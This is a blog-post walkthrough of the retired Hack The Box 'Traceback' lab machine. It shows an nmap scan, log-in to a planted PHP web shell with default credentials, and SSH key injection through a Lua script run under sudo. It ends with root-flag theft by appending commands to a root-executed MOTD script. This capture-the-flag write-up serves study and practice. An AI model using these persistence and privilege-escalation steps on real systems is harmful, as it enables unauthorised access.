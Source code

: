 ```yaml
---
layout: post
title:  "HTB Traceback Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Traceback, Retired Linux Easy Box
tags: HTB_Walkthrough ssh pspy
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
# Nmap 7.80 scan initiated Sat Mar 14 16:47:34 2020 as: nmap -sV -sC -Pn -p- -oA traceback.htb.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.041s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 14 16:48:11 2020 -- 1 IP address (1 host up) scanned in 37.02 seconds
{% endhighlight %}

Once I found what was open, I began performing banner grabbing. I found that `XH4H` was listed all over the page:

{% highlight bash linenos %}
ssh xh4h@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
{% endhighlight %}

This led to nothing. So, checking out http, there was a note in the soure code:

{% highlight bash linenos %}
<!--Some of the best web shells that you might need ;)-->
{% endhighlight %}

Performing some OSINT, XH4H has a GitHub and forked a project over with the best php web shells:

https://github.com/Xh4H/Web-Shells

Once I had that, I check to see if any were on the website. One was! http://traceback.htb/smevk.php. Once I logged in to the webshell with the default `admin:admin` credentials, I then found that user webadmin had ssh, and an `authorized_keys` file I could write to. I wrote my `id_rsa.pub` to the authorized keys, and logged in with ssh.

Once logged in, I found with `sudo -l`, I can run `/home/sysadmin/luvit` as sysadmin with no password. Doing some googling, luvit is a lua driven tool to learn Lua. Luvit can also run .lua files. So, I created a Lua file, to again write my id_rsa.pub to the `authorized_keys` file:

{% highlight bash linenos %}
local test = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
test:write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDORSNFXHRLa8rC5DieG5EFcwzHa4daADnRHCN3mHIrqujoJSOeb7lNkSg0zPRd2oAJHbZx+t4YsG1fssh1bAl/FUE62D+r+0ZpD8137GipGEflnUobWhgtpez8bf8CWrvFqnVSg4KhQ5qgVLckzJRWxHbCME49BKUi8EEtZv3yEviNuKkOSQsn6IWfoPlW0bNG0gZutltE1cTGLCEsHSYKIEjyZRpSfGAywbwWagpAlJrMscOzCet19Zswc33yNZtLtUPqxfqmmVG08PV8W7jqOQeVKak= root@beast\n")
test:close()
{% endhighlight %}

And then ran that file:

{% highlight bash linenos %}
sudo -u sysadmin /home/sysadmin/luvit blah.lua
{% endhighlight %}

Once I ran that, I then logged in as sysadmin over SSH and owned user:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ ls
luvit  user.txt
$ cat user.txt
xxxxxxxxxxxxxxxxxxxx33ffbf0cceb2c46020
{% endhighlight %}

Enumerating, looking at pspy, I found that there is a running process every 30 seconds:

{% highlight bash linenos %}
/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

{% endhighlight %}
Looking in /etc/update-motd.d/ I see I have write access to 00-header, which displays the welcome message! Towards the bottom, I added the following to /etc/update-motd.d/00-header:

{% highlight bash linenos %}
[ -r /etc/lsb-release ] && . /etc/lsb-release

cat /root/root.txt
echo "\nWelcome to Xh4H land \n"
{% endhighlight %}

I then quickly logged in, and got the root flag:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
xxxxxxxxxxxxxxxx4f6f56d822a357585d6
{% endhighlight %}
